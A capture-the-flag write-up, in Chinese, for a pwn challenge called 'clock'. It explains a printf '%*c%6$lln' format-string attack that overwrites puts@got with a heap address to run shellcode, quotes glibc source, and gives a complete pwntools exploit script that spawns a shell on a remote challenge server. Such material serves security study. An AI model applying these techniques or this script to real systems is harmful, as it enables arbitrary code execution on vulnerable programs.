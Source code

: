 # clock 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序一开始将堆区添加了可执行权限，并允许我们输入shellcode

<img src="assets/mprotect.png" height="90%" width="90%">

随后主菜单中的`display_current_time`给了可以控制的`format_and_print`，我们可以控制前三个参数。

<img src="assets/critical.png" height="65%" width="65%">

跟进去一看，`vsnprintf`是什么函数？

> [!IMPORTANT]
> `vsnprintf`是"printf to string with max n chars in raw va_list"的意思，`va_list`是什么？
> 通过gdb打印它的结构，看不懂；在glibc中找定义，找不到；在网上找文章，没有具体信息；
> 最后发现它是由gcc实现的。正当我放弃时，想到了pwndbg，结果发现pwndbg已经做好了解析功能
>
> ![resolve](assets/resolve.png)
>
> 图中`gp_offset`指向的参数就是第一个参数，`reg_save_area`用完了，`overflow_arg_area`继续，
> 这也是各种`printf`的内部实现，不难看出，从第 **6** 个参数开始从栈上访问

可以发现，第二个参数来自堆上，而堆又是可执行的；第三个参数来自栈上，因此可以写指针，
然后利用`$`来访问。注意到在`format_and_print`函数后跟了`puts`， 并且程序没有开PIE与只读GOT，
因此可以尝试覆盖之。如果能覆盖成堆地址就好了，直接跳转过去执行我输入的代码。其中的秘诀就是——`%*c`。

> [!NOTE]
> `*`在printf中是一个格式化修饰符，意味着将当前参数作为`int`读入并视为宽度，
> 例如`printf("%*d", -5, 777)`就会在内部被解释为`"%-5d"`，输出`777  `；
> `*`还可以使用positional arg，例如`printf("%c%*4$d", '>', 1, 2, 3)`就会输出`>  1`。
>
> 注意，positional arg会使输出变得“不合直觉”，在上例中，`4$`应当作用在`d`上，
> 然而实际上却作用在了`*`上，输出了"  1"。类似的，`printf("%3$*d", 3, 2, 1)`输出`  1`；
> `printf("%3$*2$d", 3, 2, 1)`输出` 1`。以下是一种解释。具体的代码请参阅`printf-parsemb`[^1]。
>
> ![explanation](assets/explanation.png)
>
> 此外，`*`取参数的值时，固定取`int`，当取到的值为负数时，会自动做相反数运算，并且打开左对齐输出，
> 在后文中会提到，这是一个对我们在利用时不利的特性。

[^1]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/printf-parsemb.c

```c
// glibc2.38/stdio-common/vfprintf-internal.c#L763
      /* Get width from argument.  */
    LABEL (width_asterics):
      {
	const UCHAR_T *tmp;	/* Temporary value.  */

	tmp = ++f;
	if (ISDIGIT (*tmp))
	  {
	    int pos = read_int (&tmp);

	    if (pos == -1)
	      {
		__set_errno (EOVERFLOW);
		Xprintf_buffer_mark_failed (buf);
		goto all_done;
	      }

	    if (pos && *tmp == L_('$'))
	      /* The width comes from a positional parameter.  */
	      goto do_positional;
	  }
	width = va_arg (ap, int); // 认为*输入的参数是int类型的数据

	/* Negative width means left justified.  */
	if (width < 0)
	  {
	    width = -width;
	    pad = L_(' ');
	    left = 1;
	  }
      }
      JUMP (*f, step1_jumps);
```

现在我们知道，我们访问的第一个参数是刚写入完内容的`name`堆地址，第二个参数是`pwd`栈地址，
并且第6个参数处就是我们写入的内容。如果我们能把堆地址写到`puts@got`中，
那么`puts`执行时就会跳转到我们在堆上输入的数据处。此时`*`参数就派上用场了。
使用`"%*c%6$lln"`作为格式输入，`vsnprintf`就会将第一个堆地址作为宽度，打印第二个字符，
然后根据写过的字符数，将其写入到第六个参数，`puts@got`中。

> [!TIP]
> 由于程序没开PIE，因此堆地址刚好占4个字节，由于`*`取的类型为`int`，所以如果开了PIE，
> 堆地址变成了6个字节，这个方法就废了
>
> 此外，`puts@got`原先已经链接了`puts@libc`，其中存放了6个字节的数据，
> 需要通过`lln`清空之前的数据，只保留堆地址这4个字节

这样以来，我们只需要在申请的堆块上写上打开shell的shellcode，我们就能成功拿shell。

> 最后的payload非常短，我猜是非预期

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
EXE = './clock'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 29789)
    elf = ELF(EXE)

    sh.sendafter(b'code', b'never mind')
    sh.sendlineafter(b'Enter', b'3')
    sh.sendafter(b'format', b'%*c%6$lln')
    sh.sendafter(b'name', asm(shellcraft.amd64.linux.sh()))
    sh.sendafter(b'pwd', p64(elf.got['puts']))

    sh.clean()
    sh.interactive()
```

## `*`修饰符的妙用

这里有[一篇文章](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)，
讲了如何借助`*`进行进一步利用。简而言之，如果有libc的指针，
并且有现成的指针存储了堆之上，栈之下的地址，那么就可以先从现有的libc指针中使用`*`，
写`libc & 0xffffffff`个字节，然后可以再跟一个`%?c`来做加法，把写过的字节调一下，
然后再使用`%?$n`就可以把调过偏移的数字写入你想要写的指针中（堆之上，栈之下的地址的高2字节，
即`0x7fff`这个部分，基本都一样，因此可以直接利用）

> [!TIP]
> 基于我本机[^2]的libc.so.6，我收集了一系列在`system`之前的符号，
> 可以在当前目录下的[SymbolsBeforeSystem.txt](./SymbolsBeforeSystem.txt)中查看

[^2]: Arch Linux, GLIBC_2.39

但是，由上面的源码可见，当`libc & 0x80000000 != 0`时，`*`取到的就是一个负数，
并会将其取相反数，例如对`0x7ffff7c00000`取就会变成`-(0x7ffff7c00000 & 0xffffffff)`，
即`0x8400000`，这显然与我们想写的`0xf7c00000`产生了偏差。在ASLR开启的情况下，
libc被int截断后的最高位为0的概率是1/2，因此我们通过这种方式能写正确字节的概率也是1/2。

## 写这么多字节为什么连接没有被关断？

容器一般会有限制，如cpu时间，占用的资源等，如果一次性打印了大量的字符，
则很有可能导致连接的关断。然而，上面的例子中，写入堆地址同样是一个很大的值，却能顺利打通，
这是怎么回事呢？

仔细观察函数`vsnprintf`属于`sprintf`家族，实际上，大量空白字符并没有输出到标准输出流中，
实际上只做了字符串写入操作；而且还限定了长度，防止越界写。那么内部实际在写入完有效的字符串后，
会使用一个额外的，“丢弃的”缓冲区来处理剩余未写入完的垃圾字符，如下图所示

![legend](assets/structure.png)

在上图中，`buf.base.write_base`本来是指向要写入的字符串(0x7fffffffddb0)开始的，
当字符串写入达到长度限制后，`write_base`就指向了结构体内的`discard`继续写入。
gdb跟踪查看源代码，当有大量字符溢出时，会反复使用`memset`填充`discard`[^3]，
而这个行为实际上并不经过网络传输，因此不会导致连接关断。

[^3]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_pad_1.c#L39

> [!NOTE]
> 在上述结构体中，有`written`字段，然而，如果payload比较短，我发现`written`明明是0，
> 但是使用`%n`时仍然写入了正确的数字。例如`"%c%20c%n"`在运行到`%n`时，
> 结构体中的`written`仍然是0。实际上，printf正确地将21写入了预期的指针中，
> 查询源码发现统计"%n"前已写入的字符是`written + (write_ptr - write_base)`[^4]，
> 因此没有问题

[^4]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_done.c#L24

实际使用`*`时，除了可以用在`vsnprintf` & `snprintf`，还可以用在`fprintf` & `dprintf`，
如写入的文件是`/dev/null`，这同样不会向网络传输字符。总而言之，只要空白字符不打印出来，
就可以利用。

## `printf`函数分配了堆块？

当我测试时，printf会分配堆块，其调用链是
`__printf_buffer_do_flush -> __printf_buffer_flush_to_file -> _IO_new_file_xsputn ->
_IO_new_file_overflow -> __GI__IO_doallocbuf -> __GI__IO_file_doallocate -> malloc`，
printf确实会分配堆块。然而，看了pwn.college后发现只要`setbuf(stdout, NULL)`就不会再分配缓冲区了。

看来这行代码一方面实现了即时刷新缓冲区，另一方面也避免了出乎意料的堆块分配。

## 参考

[Pwn: More Printf](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)
